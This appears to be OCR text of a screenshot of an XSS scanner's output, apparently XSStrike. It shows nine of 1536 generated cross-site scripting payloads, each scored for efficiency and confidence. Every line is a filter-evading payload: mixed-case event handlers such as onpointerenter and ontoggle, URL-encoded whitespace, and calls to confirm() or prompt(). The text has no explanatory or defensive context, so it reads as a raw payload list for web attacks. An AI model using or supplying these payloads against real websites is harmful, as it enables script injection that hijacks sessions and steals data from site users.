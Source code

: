 ------------------------------------------------------------
 Payload: <DETaiLs/+/OnpOintEREnteR+=+[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 340/1536
 
------------------------------------------------------------
 Payload: <HTML%0aoNPOinterENTeR%0d=%0d(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 341/1536
 
------------------------------------------------------------
 Payload: <a%09ONpoiNTErENteR%0d=%0d(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 342/1536
 
------------------------------------------------------------
 Payload: <D3V%09ONPOINTErENTeR+=+[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 343/1536
 
------------------------------------------------------------
 Payload: <HTMl%0aONpOINTEReNTEr%09=%09confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 344/1536
 
------------------------------------------------------------
 Payload: <DEtaILS%0aoNpOIntERENTEr%0d=%0d[8].find(confirm)%0dx// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 345/1536
 
------------------------------------------------------------
 Payload: <DETAiLs%0dONToGglE+=+a=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 346/1536
 
------------------------------------------------------------
 Payload: <D3V/+/OnmOuSEOver+=+(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 347/1536
 
------------------------------------------------------------
 Payload: <deTaiLs%0aONtOGgle%0a=%0aa=prompt,a()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 348/1536
 